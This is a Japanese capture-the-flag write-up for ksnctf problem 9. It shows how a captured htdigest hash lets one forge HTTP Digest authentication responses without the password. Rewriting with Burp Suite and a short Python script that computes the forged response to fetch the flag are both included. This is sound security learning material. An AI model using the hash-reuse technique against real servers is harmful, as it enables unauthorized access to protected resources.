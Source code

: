# digest is secure

# 問題

>http://ksnctf.sweetduet.info/q/9/q9.pcap

# 解法

問題文から分かるようにdigest認証の問題。
basic認証がガバガバだったのと違い、digest認証はもう少し安全。

wikipedia曰く以下のように認証する。

>A1 = ユーザ名 ":" realm ":" パスワード  
>A2 = HTTPのメソッド ":" コンテンツのURI  
>response = MD5( MD5(A1) ":" nonce ":" nc ":" cnonce ":" qop ":" MD5(A2) )

ユーザーはサーバーからnonce、nc、conce、qopが与えられてresponseを作る。
サーバーはA1を持っているので、responseを作って照合する。

なるほど確かに逆ハッシュが出来ないと厳しそう。

hydraというツールがあるくらいなので出来ないことは無いのだろうが…  
と思ってpcapファイルを眺めていると、なんとhtdigestを覗いているではないか！

```
GET /~q9/htdigest HTTP/1.1
Host: ctfq.sweetduet.info:10080
Connection: keep-alive
Authorization: Digest username="q9", realm="secret", nonce="bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b", uri="/~q9/htdigest", algorithm=MD5, response="d9f18946e5587401c303b34e00a059eb", qop=auth, nc=00000002, cnonce="6945eb2a7ba8cf7f"
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.162 Safari/535.19
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,sdch
Accept-Language: ja,en-US;q=0.8,en;q=0.6
Accept-Charset: Shift_JIS,utf-8;q=0.7,*;q=0.3

HTTP/1.1 200 OK
Date: Sat, 26 May 2012 20:54:53 GMT
Server: Apache/2.2.15 (CentOS)
Authentication-Info: rspauth="022023eac9b9e023d50cca5eef69c287", cnonce="6945eb2a7ba8cf7f", nc=00000002, qop=auth
Last-Modified: Sat, 26 May 2012 12:30:54 GMT
ETag: "422e4-2b-4c0efa7f441cf"
Accept-Ranges: bytes
Content-Length: 43
Connection: close
Content-Type: text/plain; charset=UTF-8

q9:secret:c627e19450db746b739f41b64097d449
```

つまり`A1`がc627e19450db746b739f41b64097d449と分かった。

ここでdigest認証のレスポンスの作り方をもう一度見ると、

>response = MD5( MD5(A1) ":" nonce ":" nc ":" cnonce ":" qop ":" MD5(A2) )

+ A1 ← 分かった
+ A2 ← 分かる
+ nonce,nc,cnonce,qop ← 相手から与えられる

というわけでレスポンスが作れる！
（http://ksnctf.sweetduet.info:10080/~q9 がアクセス可能だとしばらく気づかなかった..）

responseの書き換えにはburpSuiteを使用する。これはproxyを立てることでhttp通信を覗き見、書き換えすることが出来るツールだ。
セットアップの仕方は[ここらへん](http://tech.pjin.jp/blog/2016/07/15/burp-suite-1-7%E3%81%AE%E4%BD%BF%E3%81%84%E6%96%B9%E3%80%80%E3%81%9D%E3%81%AE%EF%BC%92/)参考に。

![](static/images/ksnctf_digest_burp.png)

nonceなどをコピーしてレスポンスを生成して書き換えるとflagが手に入った。

```python
from hashlib import md5 

# username = "q9"
# realm="secret"
# md5(username:realm:passwd)
a1 = b"c627e19450db746b739f41b64097d449"

# uri=b"/~q9/"
uri = b"/~q9/flag.html"
req = b"GET"
a2 = md5(req + b":" + uri).hexdigest()

# test
# nonce=b"bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b"
# qop=b"auth"
# nc=b"00000001"
# cnonce=b"9691c249745d94fc"
#
# response="c3077454ecf09ecef1d6c1201038cfaf"
# res = md5(b':'.join([a1, nonce, nc, cnonce, qop, a2.encode('utf-8')])).hexdigest()
# print(res, res == response)

nonce=b"gi37b9VEBQA=f3dab70f87bd11e0f88d279815d920d2d4e01bc7"
qop=b"auth"
nc=b"00000001"
cnonce=b"c581303c1dbe7665"

res = md5(b':'.join([a1, nonce, nc, cnonce, qop, a2.encode('utf-8')])).hexdigest()

print(res)
```

## おまけ htdigest

やったことがなかったので、htdigestを試してみる。

```
❯ htdigest -c htdigest_test secret vinter
Adding password for vinter in realm secret.
New password: # vinterと入力
Re-type new password:

~/Projects/CodeSite/CTF/ksnctf/09_digest_is_secure
❯ cat htdigest_test
vinter:secret:98ef267645a2168773d7b944345ecf47

~/Projects/CodeSite/CTF/ksnctf/09_digest_is_secure
❯ md5 -s vinter:secret:vinter
MD5 ("vinter:secret:vinter") = 98ef267645a2168773d7b944345ecf47
```

確かにhashが一致している。

# 参考

+ https://ja.wikipedia.org/wiki/Digest%E8%AA%8D%E8%A8%BC
+ http://tech.pjin.jp/blog/2016/07/15/burp-suite-1-7%E3%81%AE%E4%BD%BF%E3%81%84%E6%96%B9%E3%80%80%E3%81%9D%E3%81%AE%EF%BC%92/
